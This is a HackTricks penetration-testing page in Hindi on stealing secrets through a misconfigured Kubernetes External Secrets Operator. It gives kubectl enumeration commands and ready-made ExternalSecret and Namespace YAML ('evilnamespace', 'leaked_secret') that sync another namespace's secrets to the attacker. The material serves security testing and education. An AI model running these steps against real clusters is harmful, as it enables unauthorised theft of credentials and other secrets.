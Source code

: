 # External Secret Operator

{{#include ../../banners/hacktricks-training.md}}

**इस पृष्ठ के मूल लेखक हैं** [**Fares**](https://www.linkedin.com/in/fares-siala/)

यह पृष्ठ कुछ संकेत देता है कि आप कैसे एक गलत कॉन्फ़िगर किए गए ESO या एप्लिकेशन से रहस्यों को चुरा सकते हैं जो अपने रहस्यों को समन्वयित करने के लिए ESO का उपयोग करता है।

## अस्वीकरण

नीचे दिखाए गए तकनीक केवल तभी काम कर सकती है जब कुछ परिस्थितियाँ पूरी हों। उदाहरण के लिए, यह उस आवश्यकता पर निर्भर करता है जो एक रहस्य को आपके द्वारा स्वामित्व / समझौता किए गए namespace पर समन्वयित करने की अनुमति देती है। आपको इसे स्वयं समझना होगा।

## पूर्वापेक्षाएँ

1. एक kubernetes / openshift क्लस्टर में एक पैर जमाना जिसमें एक namespace पर प्रशासनिक विशेषाधिकार हो
2. क्लस्टर स्तर पर कम से कम ExternalSecret पर पढ़ने की पहुंच
3. यह पता करें कि क्या कोई आवश्यक लेबल / एनोटेशन या समूह सदस्यता की आवश्यकता है जो ESO को आपके रहस्य को समन्वयित करने की अनुमति देती है। यदि आप भाग्यशाली हैं, तो आप किसी भी परिभाषित रहस्य को स्वतंत्र रूप से चुरा सकते हैं।

### मौजूदा ClusterSecretStore के बारे में जानकारी इकट्ठा करना

मान लेते हैं कि आपके पास एक उपयोगकर्ता है जिसके पास इस संसाधन को पढ़ने के लिए पर्याप्त अधिकार हैं; पहले मौजूदा _**ClusterSecretStores**_ की सूची बनाकर शुरू करें।
```sh
kubectl get ClusterSecretStore
```
### ExternalSecret enumeration

मान लीजिए कि आपने _**mystore**_ नाम का ClusterSecretStore पाया है। इसके संबंधित externalsecret की गणना जारी रखें।
```sh
kubectl get externalsecret -A | grep mystore
```
_यह संसाधन नामस्थान स्कोप किया गया है, इसलिए जब तक आप पहले से नहीं जानते कि किस नामस्थान में देखना है, सभी नामस्थानों में देखने के लिए -A विकल्प जोड़ें।_

आपको परिभाषित externalsecret की एक सूची मिलनी चाहिए। मान लीजिए कि आपने _**mysecret**_ नाम का एक externalsecret ऑब्जेक्ट पाया है जो _**mynamespace**_ नामस्थान द्वारा परिभाषित और उपयोग किया गया है। यह जानने के लिए कि यह किस प्रकार का रहस्य रखता है, थोड़ी और जानकारी इकट्ठा करें।
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### टुकड़ों को इकट्ठा करना

यहां से आप एक या एक से अधिक गुप्त नाम (जैसे कि Secret संसाधन में परिभाषित) प्राप्त कर सकते हैं। आपको एक आउटपुट मिलेगा जो इस प्रकार होगा:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
अब तक हमारे पास है:

- एक ClusterSecretStore का नाम
- एक ExternalSecret का नाम
- सीक्रेट का नाम

अब जब हमारे पास सब कुछ है, आप एक ExternalSecret बना सकते हैं (और अंततः आवश्यकताओं के अनुसार एक नया Namespace पैच/बनाने के लिए अपने नए सीक्रेट को सिंक करने के लिए):
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
कुछ मिनटों के बाद, यदि समन्वय की शर्तें पूरी हो गईं, तो आपको अपने नामस्थान के अंदर लीक हुआ रहस्य देखने में सक्षम होना चाहिए।
```sh
kubectl get secret leaked_secret -o yaml
```
## संदर्भ

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}



{{#include ../../banners/hacktricks-training.md}}
